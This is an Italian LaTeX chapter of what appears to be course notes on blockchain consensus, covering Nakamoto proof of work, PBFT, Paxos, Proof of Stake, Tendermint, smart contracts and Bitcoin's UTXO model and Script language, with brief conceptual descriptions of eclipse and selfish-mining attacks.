Tutti i nodi della rete sono a conoscenza di tutte le transazioni e partecipano attivamente alla validazione dei blocchi attraverso il raggiungimento del consenso. Il modello di sicurezza deve contemplare anche il cosiddetto \textit{51\% attack}, nel quale un gruppo di nodi maliziosi possiede più del 50\% della potenza computazionale della rete.

Nessun algoritmo può garantire il raggiungimento del consenso in un sistema asincrono nel caso di anche un unico fallimento per crash di un processo (\textbf{Teorema di Impossibilità}). Per raggiungere il consenso in sistemi asincroni in presenza di fallimenti si possono rilassare i vincoli di consenso oppure rendere meno asincrono il sistema, sfruttando i periodi di sincronia.

\vspace{5mm}

È consentito che in alcuni casi non si raggiunga il consenso tra tutti i nodi della rete, ovvero solo un sottoinsieme di nodi raggiungono il consenso. In questo caso è possibile un 51\% attack. Esistono molte soluzioni diverse che consentono di irrobustire il consenso per evitare questo tipo di attacchi, ad esempio l'aggiunta di un controllo collettivo, dove chiunque valida una transazione deve spendere tanto tempo computazionale in modo da scoraggiare l'attacco, oppure è previsto un meccanismo di incentivazione: una ricompensa per il lavoro svolto.

Il rilassamento dei vincoli di consenso può dare origine a biforcazioni della blockchain (\textbf{Blockchain Forking}). Nel caso di produzione simultanea di due blocchi, alcuni blocchi aggiungeranno alla propria blockchain il blocco rosso ed altri il blocco blu, fino ad arrivare alla realizzazione di una \textit{forked blockchain}, che rappresenta la situazione di non consenso.

\begin{figure}[hbt!]
    \centering
    
\includegraphics[width=8cm]{./Images/cap3/3.6.png}
\end{figure}

All'atto della produzione del blocco successivo, esso farà riferimento ad uno solo dei due blocchi precedentemente creati. Tale operazione comporta la rimozione del ramo della blockchain composto del nodo blu, in quanto predomina il ramo di lunghezza maggiore. Il consenso è raggiunto.

In un certo istante di tempo la comunità può ritenere necessario cambiare le regole della blockchain in modo che determinate transazioni ritenute non valide fino a quel momento siano considerate valide da tale istante e nel futuro. Tale condizione genera un \textbf{hard fork}, che comporta la generazione voluta di un nuovo ramo della blockchain per distinguere i nodi che seguono il nuovo regolamento rispetto a quelli fedeli al vecchio. In qualsiasi momento i nodi possono decidere di abbandonare un ramo per seguire l'altro.

\subsection{Consenso Nakamoto - Bitcoin}
Un metodo per ottenere il consenso è utilizzare l'algoritmo del consenso Nakamoto - Bitcoin, che funziona come segue:
\begin{enumerate}
    \item Ogni nuova transazione viene inviata in broadcast a tutti i nodi;
    \item Ogni nodo collezione le nuove transazioni in un blocco;
    \item Ogni nodo cerca un PoW difficile per il proprio blocco. La PoW consiste nel calcolo di un valore (un nonce) tale che un hash di blocco + il nonce inizi con un numero di zeri stabilito;
    \item Quanto un nodo trova una PoW, invia in broadcast a tutti i nodi il blocco contenente le transazioni e la PoW;
    \item Un nodo accetta il blocco solo se:
    \begin{itemize}
        \item tutte le transazioni sono valide;
        \item le transazioni non sono relative ad un bene già speso;
        \item la PoW è valida. A tale scopo il nodo calcola a sua volta l'hash del blocco, e verifica che abbia lo stesso numero di zeri iniziali.
    \end{itemize}
    \item I nodi manifestano l'accettazione del blocco aggiungendolo alla blockchain all'atto della creazione del blocco successivo, utilizzando l'hash del blocco accettato per creare il prossimo blocco.
\end{enumerate}
Due nodi possono fare concorrentemente il broadcast di blocchi differenti, e nodi diversi possono ricevere i due broadcast in ordine diverso. Ciascun nodo lavora sul primo blocco che riceve, ma conserva l'altro ramo. L'indecisione si risolve quando un ramo diventa più lungo: i nodi che lavorano sul ramo meno lungo lo abbandonano e proseguono a lavorare sulla catena più lunga.

È opportuno incoraggiare la cooperazione dei nodi alla creazione del consenso (validazione delle transazioni corrette): affinché un blocco sia validato ci deve essere una maggioranza di nodi corretti e che spendono risorse (costruendo la PoW). Poiché la PoW è onerosa, anche i nodi corretti potrebbero non essere ben disposti a cooperare. È prevista allora una politica di incentivi, che consiste nell'incoraggiare i processi corretti a collaborare nonostante l'onere computazionale, mettendo in minoranza i processi maliziosi. Questi ultimi dovranno avere ancora più potenza di calcolo per contrastare molti nodi corretti che validano il blocco.

La prima transazione di ogni blocco assegna un compenso al nodo creatore del blocco (ed ecco perché il data mining è molto diffuso).

\section{Definizione base di Blockchain}
Una \textbf{Blockchain} è un libro mastro pubblico distribuito (distribuited public ledger) di transazioni o eventi digitali eseguiti e condivisi tra i partecipanti. Ogni transazione riportata nella blockchain è validata tramite il raggiungimento del consenso tra i nodi del sistema. Una volta memorizzate, le informazioni non possono essere cancellate né modificate. Ogni blocco contiene uno o più record (un record per transazione), e come in un libro mastro, la storia delle registrazioni è immutabile e può essere verificata a partire dal primo blocco, chiamato \textbf{genesis block}. 

Le proprietà che una blockchain fornisce sono:
\begin{itemize}
    \item \textbf{Pubblica verificabilità}: ogni transazione può essere verificata da ogni partecipante (tramite gli alberi di Merkle)
    \item \textbf{Trasparenza}: ogni partecipante ha accesso ad un sottoinsieme di informazioni
    \item \textbf{Privacy}: l'identità di chi esegue una determinata transazione è tutelata
    \item \textbf{Integrità}: le informazioni non vengono modificate da fonti non autorizzate
    \item \textbf{Ridondanza}: dati ripetuti per ogni partecipante del sistema
    \item \textbf{Assenza di una \textit{Trust Anchor}} (entità centrale di controllo)
\end{itemize}
L'effettiva implementazione di questa tecnologia è fortemente dipendente dal tipo di blockchain che si intende realizzare:
\begin{itemize}
    \item \textbf{Permissionless}: i partecipanti non devono essere preventivamente autorizzati per il ruolo che intendono svolgere
    \item \textbf{Permissioned}: le operazioni (tutte o anche solo alcune) possono essere svolte solo da nodi preventivamente autorizzati.
\end{itemize}
Sono poi classificabili in base all'ambito:
\begin{itemize}
    \item \textbf{Public}: tutti i blocchi sono visibili a tutti i nodi e ogni nodo può partecipare al consenso;
    \item \textbf{Private}: una specifica organizzazione decide quali nodi possono leggere i blocchi e partecipare al consenso (troughput delle transazioni molto alto);
    \item \textbf{Consortium}: pochi nodi predeterminati possono leggere i blocchi e partecipare al consenso.
\end{itemize}
Questo grafico riassume i tipi di blockchain in base ai requisiti.

\begin{figure}[hbt!]
    \centering
    \includegraphics[width=12cm]{./Images/cap3/3.7.png}
\end{figure}

È possibile dividere idealmente le strutture basate su blockchain in tre livelli:
\begin{itemize}
    \item \textbf{Transaction Layer}: definisce il linguaggio di codifica e i criteri utilizzati durante la generazione di transazioni e smart contract. Entrambi devono essere firmati prima della loro diffusione per garantire il non ripudio e consentire il controllo dell'accesso e l'autenticazione del loro contenuto.
    \item \textbf{Block-Generation Layer}: sono presenti i processi di convalida delle transazioni e mining dei blocchi. Tutte le transazioni sono inserite in un blocco candidato, secondo regole di convalida. L'algoritmo di consenso viene adottato per garantire che tutti i nodi della rete abbiano una vista consistente dello stato della blockchain.
    \item \textbf{Distribution Layer}: ne fa parte il processo di distribuzione, così come l'inserimento del mined block nella blockchain. Tale inserimento riesce solo se l'hash del blocco estratto è corretto, altrimenti viene scartato. Al momento dell'inserimento di un blocco, lo stato globale della blockchain cambia e la vista globale della blockchain viene aggiornata.
\end{itemize}

\section{Il consenso nelle Blockchain}
In una rete blockchain, ogni partecipante può validare transazioni e proporre nuovi blocchi. L'obiettivo del protocollo di consenso nelle blockchain è di garantire che tutti i nodi partecipanti concordino sulla storia comune delle transazioni nella rete:
\begin{itemize}
    \item \textbf{Termination}: da ogni nodo onesto, una nuova transazione è sia scartata o accettata nella blockchain, all'interno del contenuto di un blocco.
    \item \textbf{Agreement}: ogni nuova transazione e il suo blocco che la contiene deve essere sia scartata o accettata da tutti i nodi onesti. Un blocco accettato deve avere lo stesso numero di sequenza per ogni nodo onesto.
    \item \textbf{Validity}: se ogni nodo riceve uno stesso blocco/transazione valida, esso deve essere accettato nella blockchain.
    \item \textbf{Integrity}: per ogni nodo onesto, tutte le transazioni accettate devono essere consistenti tra di loro (senza double spending). Tutti i blocchi accettati devono essere correttamente generati e collegati con hash in ordine cronologico.
\end{itemize}
Sono requisiti simili a quanto visto nel classico consenso distribuito: mentre \textbf{termination} e \textbf{validity} rappresentano la \textit{liveliness} del sistema, \textbf{agreement} e \textbf{integrity} rappresentano la \textit{safety} del sistema. 

Tuttavia l'agreement è potenziato con il total ordering, che rappresenta la serializzazione di blocchi e transazioni, mentre l'integrity impone la correttezza dell'origine di transazioni e blocchi, consentendo una protezione nei confronti del double spending e favorendo la \textit{tamper-proofing} nella blockchain.

\vspace{5mm}

Il teorema CAP si applica anche alle blockchain, con la relativa impossibilità di garantire entrambe le proprietà. Per i meccanismi di consenso, liveliness e safety hanno una diretta correlazione con il teorema: la \textbf{liveliness} garantisce che il processo di consenso completa sempre i suoi round. Anche se non si arriva a consenso, il meccanismo non attende indefinitamente, garantendo la sua availability. La \textbf{safety} garantisce che i suoi partecipanti siano nello stesso stato dopo un round, garantendo la consistenza nella rete.

Nei meccanismi di consenso delle blockchain si distinguono tre elementi chiave:
\begin{itemize}
    \item come vengono selezionati i partecipanti al consenso;
    \item come viene realizzato il processo di raggiungimento del consenso;
    \item come sono strutturati i dati nella blockchain.
\end{itemize}
Il protocollo di consenso si compone di cinque elementi:
\renewcommand{\theenumi}{\arabic{enumi}}
\begin{enumerate}
    \item la proposta di un blocco: generazione di blocchi e associazione di prove;
    \item la propagazione di informazioni: disseminazione di blocchi e transazioni nella rete;
    \item la validazione di blocchi: controllo dei blocchi per la generazione di prove e verifica della validità delle transazioni;
    \item la finalizzazione dei blocchi: raggiungimento del consenso sull'accettazione di blocchi validati;
    \item il meccanismo di incentivazione: promozione di partecipanti onesti e creazione di token di rete.
\end{enumerate}
Il consenso su blockchain si ispira al meccanismo di \textbf{State Machine Replication} (SMR).
\subsection{State Machine Replication}
SMR stabilisce i seguenti requisiti:
\begin{itemize}
    \item Tutti i server iniziano con lo stesso stato iniziale;
    \item Total order broadcast: tutti i server ricevono la stessa sequenza di richieste secondo l'ordine di generazione dai client;
    \item Tutti i server che ricevono la stessa richiesta emetteranno gli stessi risultati di esecuzione e termineranno nello stesso stato.
\end{itemize}
Sussiste una corrispondenza tra gli elementi del consenso nelle blockchain e quelli in SMR:
\begin{enumerate}
    \item La proposta di blocchi corrisponde alle richieste di operazioni da parte dei client in SMR e il leader che inizia il consenso;
    \item La propagazione delle informazioni corrisponde al reliable broadcast delle richieste di operazioni;
    \item La validazione dei blocchi corrisponde alla verifica delle firme e l'esecuzione delle operazioni richieste;
    \item La finalizzazione dei blocchi corrisponde al raggiungimento del consenso da parte dei server sullo stato corrente;
    \item Il meccanismo di incentivo non trova una corrispondenza. Questo perché SMR presuppone un gruppo ben definito di partecipanti che si presuppongono onesti.
\end{enumerate}
L'algoritmo di consenso di Paxos è uno schema SMR progettato per garantire il consenso tollerante a guasti di tipo crash: un proposer suggerisce un valore all'inizio e lo scopo del sistema è di far sì che gli acceptor concordano su un singolo valore e i learners apprendano tale valore dagli acceptor.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=9cm]{./Images/cap3/3.8.png}
\end{figure}

Come si può vedere dalla figura, il client è un learner e il leader tra i server è un proposer, mentre le repliche sono degli acceptors. Il client richiede il consenso su un singolo valore.

Il proposer propaga la richiesta agli acceptors, che si scambiano informazioni sui propri stati. Dopo essersi aggiornati allo stesso stato, tutti i server eseguono la richiesta e la inviano al client.

Il client riceve i risultati dagli acceptor e formula l'esito a maggioranza. Quando il leader è indisponibile per crash, le repliche ne eleggono uno nuovo.

Quest'algoritmo tollera \textit{f} crash dei server il cui numero \textit{N} è maggiore di \textit{2f + 1}, ma non tollera guasti bizantini.


\subsection{Pratical Byzantine Fault Tolerance}
L'algoritmo di PBFT è uno schema SMR che tollera i guasti bizantini ed è diventato sinonimo di tolleranza ai guasti bizantini nel contesto delle blockchain. Si compone di tre fasi:
\begin{itemize}
    \item Tutti i risultati inviati al client devono essere uguali, altrimenti il client decide a maggioranza. Il client invia una richiesta al nodo primario (leader), che la trasmette a tutti i nodi secondari (backup) assegnando un numero di sequenza.
    \item I nodi secondari e il leader si accordano sull'ordinamento delle richieste, e quando l'ordinamento è stato approvato la richiesta viene eseguita e un risultato viene restituito al client.
    \item Se il client ricevee \textit{f+1} risposte identiche, si raggiunge consenso.
\end{itemize}

\begin{figure}[htb!]
    \centering
    \includegraphics[width=10cm]{./Images/cap3/3.9.png}
\end{figure}

Il leader è scelto per ogni round dell'algoritmo o vista. I nodi sono ordinati in base al proprio identificativo, ed indicando il numero della vista con \textit{v} il leader è il modo con identificativo \textit{i = v mod N}.

Quando una replica nota un comportamento errato da parte del leader, se ne può richiedere la sostituzione con il meccanismo della \textit{view change} e l'elezione di un nuovo leader.

L'algoritmo consente di tollerare \textit{f} guasti anche di natura bizantina, con \textit{N} maggiore o uguale di \textit{3f + 1}, ovvero i nodi bizantini non riescono a far deviare il consenso raggiunto.

\vspace{5mm}

La primitiva di comunicazione alla base delle implementazioni PBFT nel contesto delle blockchain è il gossiping, impiegato per la propagazione di messaggi di blocchi o transazioni. A differenza della formulazione classica, nelle reti blockchain si ha la terminazione probabilistica: per ogni nodo onesto, ogni nuovo blocco è sia scartato o accettato nella sua blockchain locale. Un blocco accettato può essere ancora scartato ma con probabilità decrescente in maniera esponenziale con la crescita della dimensione della catena.

Il principale problema con la PBFT è che richiede che i nodi verifichino la validità dei messaggi degli altri e che il numero di nodi attivi in un dato momento sia sempre noto, e ciò lo rende applicabile in contesti \textit{permissioned}. Un altro svantaggio è che i leader vengono sostituiti solo quando le view change vengono attivate dalla rete. L'opportunità di diventare un leader è quindi unfair e mancano pochi incentivi per entrare a far parte della rete. Blockchain elegge i leader in base alla difficoltà del lavoro svolto, che genera incentivi, anche se spreca potenza di calcolo.

\vspace{5mm}

La sicurezza di PBFT si basa sul voto in tre fasi con MAC (Message Authentication Code) per la verifica dei messaggi. Sebbene non consumi molte risorse, di elaborazione, crea inevitabilmente problemi di scalabilità: in PBFT è impossibile espandersi oltre i 1000 nodi.

PBFT garantisce fortemente il requisito di \textit{safety}, perché una fork è quasi impossibile e viene garantita la terminazione immediata. Al contrario, la blockchain è più focalizzata sulla \textit{liveliness} che sulla safety: i fork si verificano abbastanza frequentemente (consenso multiplo) e affinché un blocco sia sicuro la sua catena deve essere più lunga di un certo numero di blocchi.

A tale scopo si è formulato un diverso algoritmo di consenso, quello di Nakamoto. Lo scopo è di evitare il consenso in gruppi chiusi, e di non punire i singoli nodi in gruppo aperto per essersi comportanti in modo malevolo, ma bisogna disincentivare i nodi a replicare comportamenti malevoli. A tal proposito, il processo di mining dei blocchi (ovvero calcolo della Proof of Work) è stocastico, per cui è impossibile sapere con certezza chi troverà la soluzione, anche se al crescere della difficoltà i nodi capaci di portare avvanti il processo diminuiscono. Questo scoraggia tutti gli agenti non disposti ad investire risorse economiche a partecipare al gioco.

Con il crescere dell'uso, e quindi del valore, la difficoltà a minare bitcoin aumenta, disincentivando ulteriormente chiunque voglia attaccare la rete. Inoltre, il crescente valore costringe gli agenti onesti ad investire di più nella sicurezza dei propri nodi, e di conseguenza della rete in generale. Le regole di validazione dei blocchi assicurano che nessun agente onesto accetti blocchi con informazioni scorrette.

\subsection{Il consenso Nakamoto}
Rispetto al consenso di Nakamoto implementato nel contesto della bitcoin, è possibile trovare un parallelismo con le 5 componenti del consenso nelle blockchain:
\begin{enumerate}
    \item La generazione di blocchi richiede una Proof of Work mediante la risoluzione di un puzzle crittografico con un determinato grado di difficoltà, tale da mantenere un intervallo di generazione e un grado di protezione adatti.
    \item Il gossiping viene impiegato per la distribuzione dei blocchi (transazioni appena ricevute o localmente generate=.
    \item Un blocco o transazione deve essere validata prima di essere inviata in broadcast agli altri o collegata alla coda di una catena locale. La validità si realizza evitando la double spending o controllando la PoW allegata al blocco.
    \item La catena più lunga rappresenta il raggiungimento del consenso in caso di disaccordo (che ha causato la fork).
    \item Chi ha generato un blocco accettato con successo può ottenere un reward o premio. Sottomettere una nuova transazione ha un costo monetario.
\end{enumerate}
L'impiego di PoW intensive è necessario per evitare e tollerare attacchi Sybil, a causa della natura \textit{permissionless} e pseudonima di alcune reti blockchain. Un attaccante può facilmente ottenere delle nuove identità, ma la risoluzione di una PoW implica il consumo di risorse di hash, che può essere difficilmente falsata. La reward per i blocchi e il costo delle transazioni serve ad incentivare i nodi a partecipare onestamente.

\vspace{5mm}

Nelle classiche formulazioni del consenso distribuito, le caratteristiche di tolleranza ai guasti è espressa in termini di numero di nodi non corretti che si possono tollerare. Nel caso del consenso di Nakamoto è caratterizzata in termini di percentuale di potenza di hashing avversaria tollerabile.

Se la rete si sincronizza più velocemente del tasso di proposta di blocco basato su PoW, una maggioranza onesta può garantire il consenso su una parte stabile in continua crescita della blockchain. Fintanto che meno del 50\% della potenza di hashing totale è controllata in modo malizioso, i blocchi prodotti da miners onesti vengono propagati tempestivamente, la catena principale è della maggioranza onesta che eventualmente supera qualsiasi ramo malizioso.

Dal punto di vista del consenso distribuito classico, il consenso di Nakamoto elude abilmente il vincolo fondamentale di BFT pari a 1/3 adottando finalità probabilistiche. Nel consenso del BFT classico se più di 1/3 della popolazione è malizioso, i nodi onesti finiranno per decidere valori contrastanti, portando al fallimento del consenso. Nel consenso di Nakamoto, tuttavia, le decisioni contrastanti sono consentite temporaneamente sottoforma di fork della blockchain, a condizione che alla fine verranno eliminate dal continuo sforzo della maggioranza onesta.
Il consenso di Nakamoto soffre di alcune limitazioni, primo tra tutti un basso throughput delle transazioni. Si può dimostrare che l'intervallo di 10 minuti tra la generazione di blocchi garantisce che ogni nuovo blocco sia sufficientemente propagato prima che venga inserito nel sistema un nuovo blocco. Ridurre l'intervallo tra i blocchi aumenta il throughput delle transazioni, ma lascia i nuovi blocchi non sufficientemente propagati e provoca più incidenti di fork, minando la sicurezza della catena principale.

Aumentare la dimensione del blocco (attualmente a 1 MB) ha lo stesso effetto, poiché dimensioni maggiori portano a ritardi di trasmissione più elevati e una propagazione insufficiente. Inoltre, il meccanismo di PoW di Nakamoto causa enorme consumo di energia: una transazione Bitcoin in media consuma 431 KWh di elettricità.

\subsubsection{\textbf{ATTACCO ECLISSE}}
Se un potente attacco riesce a dominare la comunicazione in entrata/uscita tra un miner vittima e la rete principale, allora  la vittima non sarà più in grado di contribuire all'estensione della catena principale. Se il potere dell'attaccante è $\alpha$, allora un attacco double spending è possibile se $\alpha + \epsilon > 50\%$, con $\epsilon$ percentuali di miners eclissati.

L'attacco Eclisse è un exploit della debole connettività di una rete peer-to-peer senza autorizzazione basata su Internet. Per risolvere bisogna aumentare la connettività e la diversità geografica delle connessioni peer-to-peer.

\subsubsection{\textbf{SELFISH MINING}}
Se un gruppo di miners maligni trattiene i blocchi appena estratti e li pubblicizza strategicamente per interrompere la propagazione dei blocchi estratti da miner onesti, può parzialmente annullare il lavoro di miner onesti e amplificare il loro potere di estrazione.

Quando forma per la prima volta la sua catena segreta, il minatore egoista corre un rischio. Se ha generato il primo blocco segreto e poi un altro minatore ha generato un blocco, non può pubblicare il suo blocco segreto e avere la catena più lunga: si ha una corsa tra due rami di lunghezza 1. Il miner egoista cercherà di estendere il proprio ramo come tutti gli altri miner. Se vince, pubblica la catena più lunga, e l'attacco riparte. Se vincono gli altri, il miner egoista è in svantaggio.

A prima vista potrebbe sembrare che l'attacco non funzioni: il miner di minoranza perderà più gare di quante ne vince. Tuttavia, il grafico seguente mostra che non è così in generale. Un insieme di selfish miner più grande di 1/3 della potenza di mining aumenterebbe le sue entrate deviando dal protocollo prescritto ed eseguendo \textit{selfish mining}.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=10cm]{./Images/cap3/3.10.png}
\end{figure}

\subsection{Proof of Stake}
È un'alternativa efficiente dal punto di vista energetico al PoW. Uno Stake (puntata) si riferisce alle monete o token posseduti da un partecipante che possono essere investiti nel processo di consenso. Rispetto a PoW, la cui possibilità di proporre un blocco è proporzionale alla sua potenza di calcolo, la possibilità di proporre un blocco per PoS è proporzionale al valore del suo stake.

PoS non si basa sull'hashing dispendioso per generare blocchi, Poiché la difficoltà dell'hashing puzzle diminuisce con il valore dello stake del miner, il numero atteso di tentativi di hashing per un miner per risolvere il puzzle può essere significativamente ridotto se il suo valore di stake è alto. Pertanto, PoS evita la competizione di hashing brute force che si verificherebbe se fosse stato usato PoW, ottenendo così una significativa riduzione del costo computazionale.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=15cm]{./Images/cap3/3.11.png}
\end{figure}

Questo implica l'assenza del premio per chi inserisce il blocco giusto nella blockchain, e del mining, in quanto non vengono create nuove unità di criptovaluta con la creazione di ogni blocco. I validatori sono ricompensati con una commissione per le transizioni validate. 

Una variante di PoS è la \textbf{Proof of Stake Delegato} (DPoS): consente ai nodi che detengono lo stake maggiore di votare per eleggere i verificatori di blocchi. Questo fa sì che i detentori di stake concedano il diritto di creare blocchi ai delegati che sostengono invece di creare blocchi stessi, riducendo così il loro consumo di potenza computazionale a 0.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=10cm]{./Images/cap3/3.12.png}
\end{figure}

Mentre PoW avvantaggia i miners che hanno investito maggiormente in hardware, PoS dà un'influenza sproporzionata a coloro che posseggono un numero importante di criptovalute, con il rischio di un accentramento di ricchezza nelle mani di pochi, secondo il dogma secondo cui \textit{rich people get richer}.

Un altro problema è il \textit{nothing at stake}, per il quale nel caso di una fork del network i validatori saranno incentivati ad operare su entrambe le catene, risultando eventualmente in problemi di double spending. Questo problema è meno evidente in un sistema di DPoS.

PoS e DPoS sono stati applicati nel contesto di classici algoritmi BFT, come PBFT, al fine di consentirne l'applicazione in contesti open e \textit{permissionless}.

\subsection{Tendermint}
È un algoritmo di consenso ispirato a PBFT che sfrutta la PoS per il consenso in un ambiente permissioned, dove il gruppo dei validatori è un gruppo chiuso e precostituito. Ogni nuovo blocco viene validato o meno in una interazione dell'algoritmo, che si compone di molti round per poter giungere a consenso. Si tratta di un consenso di tipo CP, dove la consistenza viene fortemente garantita.

\begin{enumerate}
    \item Inizialmente, viene scelto a caso un validatore che propone un nuovo blocco;
    \item Il nuovo blocco viene distribuito agli altri validatori che ne verificano la validità e ne votano l'accettazione;
    \item Se sono arrivati i 2/3 dei voti ed oltre allora si conferma la decisione e si passa ad un'altra iterazione con un nuovo validatore, altrimenti si realizza un nuovo round;
    \item Ricordiamoci che essendo un algoritmo sincrono, si smette di aspettare dopo che è trascorso un timeout.
\end{enumerate}
Non tutti i validatori avranno lo stesso peso, ma la PoS viene usata per dare peso maggiore a chi ha uno stake maggiore. La condizione di 2/3 non è sul numero di votanti ma sulla quantita di criptovaluta totale nel sistema.

\vspace{5mm}

Per i meccanismi di consenso, liveliness e safety hanno una diretta correlazione con il teorema CAP:
\begin{itemize}
    \item La liveliness garantisce che il processo di consenso completa sempre i suoi round. Anche se non si arriva a consenso, il meccanismo non attende indefinitamente, garantendo la sua availability.
    \item La safety garantisce che i suoi partecipanti sono nello stesso stato dopo un round, garantendo così la consistenza nella rete.
\end{itemize}
Nelle reali implementazioni di soluzioni blockchain, non è mai possibile ottenere sia consistenza che availability, perché devono affrontare la tolleranza alle partizioni. Il sistema restituirà un errore o un timeout se non è possibile garantire che particolari informazioni siano aggiornate a causa del partizionamento di rete.

Tra le due opzioni rimanenti, i sistemi di tipo permissioned in un gruppo chiuso di nodi scelgono di privilegiare di garantire la consistency anziché l'availability, perché non sono focalizzate su criptovalute ma sulla gestione di dati in ambito distribuito.


\section{Smart Contracts}
Un contratto è un accordo legalmente vincolante che riconosce e disciplina i diritti e i doveri delle parti del contratto. Uno smart contract è la trasposizione in codice di un contratto. È un programma deterministico che elabora le informazioni in una blockchain: a parità di input i risultati restituiti saranno identici. Uno smart contract per blockchain deve soddisfare i seguenti obiettivi: osservabilità, verificabilità, riservatezza e applicabilità. Su una blockchain, uno smart contract non può essere modificato, ma può facilmente essere osservato e verificato. Il ciclo di vita di uno smart contract può essere sintetizzato come segue:
\begin{enumerate}
    \item Gli sviluppatori scrivono la logica per lo smart contract in un linguaggio di programmazione supportato dalla piattaforma blockchain che desiderano utilizzare. Utilizzando un compilatore specifico (di solito fornito dalla piattaforma stessa) compilano il codice sorgente del loro smart contract e ottengono una sua rappresentazione in bytecode.
    \item Lo smart contract è pubblicato sulla piattaforma blockchain ed archiviato. Una volta pubblicato, sarà di sola lettura o modificabile. Nel caso in cui sia di sola lettura, per fornire un aggiornamento gli sviluppatori dovranno pubblicare una nuova versione dello smart contract e reindirizzare gli utenti ad essa. Una volta caricato, lo smart contract è al suo stato iniziale, pari ai valori iniziali delle variabili interne.
    \item L'accesso a un programma di smart contract pubblicato dipende dalla piattaforma blockchain, come un indirizzo restituito quando lo smart contract è caricato nella piattaforma. Tale indirizzo può essere utilizzato per interagire con lo smart contract, inviando le transazioni contenenti la funzione che desiderano utilizzare e gli argomenti della funzione. Se è necessaria una quantità di valuta della piattaforma per avviare l'esecuzione della funzione, tale importo sarà trasferito insieme alla transazione. La transazione verrà archiviata nel pool di transazioni della piattaforma blockchain che attendono di essere eseguite e convalidate.
    \item La piattaforma blockchain selezionerà le transazioni da eseguire e convalidare. Durante l'esecuzione, le funzioni nella transazione verranno eseguite dai nodi. Durante la validazione, i nodi confronteranno i propri risultati e selezioneranno quello da mantenere secondo un protocollo di consenso.
    \item Una volta selezionato il risultato valido, verrà inserito in un blocco da aggiungere alla blockchain. Se una transazione validata ha alterato le variabili interne di uno smart contract, i nuovi valori saranno considerati come valori iniziali da transazioni future sullo smart contract.
\end{enumerate}
L'implementazione di smart contract non è standardizzata e ogni piattaforma propone una propria soluzione. Le funzioni di uno smart contract possono essere chiamate direttamente dal client o indirettamente da altri smart contracts. Per garantire che le chiamate terminino, al client viene addebitata una fee ad ogni chiamata e sua durata. Se l'addebito supera quello che il cliente è disposto a pagare, il calcolo viene interrotto e le operazioni annullate.


L'attuale approccio di sviluppo di smart contract limita il throughput perché non ammette concorrenza. Quando un miner crea un blocco, assembla una sequenza di transazioni e calcola un nuovo stato provvisorio eseguendo gli smart contract di tali transazioni in serie, nell'ordine in cui si verificano nel blocco. Un miner non può eseguire gli smart contracts in parallelo, perché potrebbero sussistere degli accessi in conflitto a dati condivisi e un interleaving arbitrario potrebbe produrre uno stato finale non coerente. Spesso per gli smart contracts non è possibile dire in anticipo se le esecuzioni di contratti siano in conflitto.


\section{Principali piattaforme}

\subsection{Bitcoin}


Bitcoin utilizza il modello UTXO (Unspent Transaction Output). Ogni transazione è identificata da un certo numero di bitcoin in ingresso e in uscita. In ingresso, si ha l'indirizzo delle transazioni mai usate in precedenza e la cui somma degli output equivale all'output della transazione che le contiene. I destinatari di una transazione sono identificati da un indirizzo Bitcoin, un identificatore di 26-35 caratteri. Gli indirizzi possono essere generati gratuitamente da qualsiasi utente.

Spesso è difficile avere transazioni che sommate risultino esattamente pari alla quantità da trasferire. L'eccedenza deve essere trasferita all'autore della transazione. Il modello UTXO non permette di ritrovare sulla blockchain il saldo corrente di un determinato utente, che deve essere ricostruito raccogliendo tutte le transazioni che presentano un determinato utente in output e quelle con tali transazioni in input. UTXO consente transazioni parallele perché non esiste alcun account, inoltre consente l'anonimato dal momento che un utente può disporre di multipli indirizzi Bitcoin. Essendo stateless, rende complesso la realizzazione di applicazioni come smart contracts, ma permette di ottenere resilienza ed elasticità, oltre che la possibilità per qualsiasi istanza di eseguire qualsiasi attività.

I multipli indirizzi Bitcoin di un utente fungono da pseudonimi per garantire la privacy, e si suole impiegare un indirizzo per ogni transazione. Un modo ingenuo per accettare pagamenti in Bitcoin è dire ai propri clienti di inviare denaro a un determinato indirizzo. Essendo le transazioni Bitcoin pubbliche, se Alice invia Bitcoin, un utente malizioso Bob potrebbe vedere tale transazione e inviare una e-mail affermando che è stato l'autore del pagamento: il destinatario del pagamento non è in grado di distinguere se il trasferimento è stato effettivamente svolto da Bob o Alice, per questo motivo si usa indicare un indirizzo per ogni cliente che deve effettuare un pagamento.

\vspace{5mm}

È possibile impiegare una transazione conoscendo il suo identificativo, che è pubblico. Sorge il problema di evitare che utenti maliziosi impieghino transazioni che non sono proprie, e per formulare dei meccanismi di controllo di autenticazione della legittimità di utilizzo, è stato realizzato un sistema di scripting su Bitcoin, precursore degli smart contract.

\textbf{Script} è un semplice programma imperativo, basato su stack ed elaborato da sinistra a destra:
\begin{itemize}
    \item Uno script è essenzialmente un elenco di istruzioni registrate con ogni transazione che descrivono come la prossima persona che desidera spendere i Bitcoin trasferiti può accedervi.
    \item Una transazione è valida se nulla genera un errore e l'elemento in cima allo stack è \texttt{true} alla fine dello script.
    \item Gli stack contengono vettori di byte.
\end{itemize}
Il linguaggio di scripting ha due tipi di istruzioni: 
\begin{itemize}
    \item Le istruzioni di dati contengono semplicemente un valore e sono racchiuse tra parentesi angolari (\texttt{$<data>$}).
    \item Gli \texttt{OP CODE} sono operazioni specifiche appartenenti al linguaggio Bitcoin Scripting che agisce sul valore in cima allo stack e pone il loro risultato anche in cima allo stack.
    \item Nell'immagine successiva è possibile vedere tre output diversi:
    \begin{itemize}
        \item Per spendere il primo output, è necessario fornire due numeri la cui somma è 8.
        \item Per spendere il secondo output, vanno fornite due diverse stringhe di dati che producono lo stesso risultato hash.
        \item Per spendere il terzo output, va dato qualcosa che ha lo stesso hash di ciò che è all'interno del blocco.
    \end{itemize}
\end{itemize}

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap3/3.13.png}
\end{figure}

Ogni codice operativo ha una corrispondente rappresentazione esadecimale, che viene usata per fornire la sua codifica. Uno \textit{locking script} viene posizionato su ogni output creato in una transazione, mentre è necessario fornire uno \textit{unlocking script} per ogni input che si desidera spendere in una transazione. Anche se l'unlocking script è fornito dopo il locking script iniziale, in realtà viene messo per primo quando si eseguono entrambi gli script.

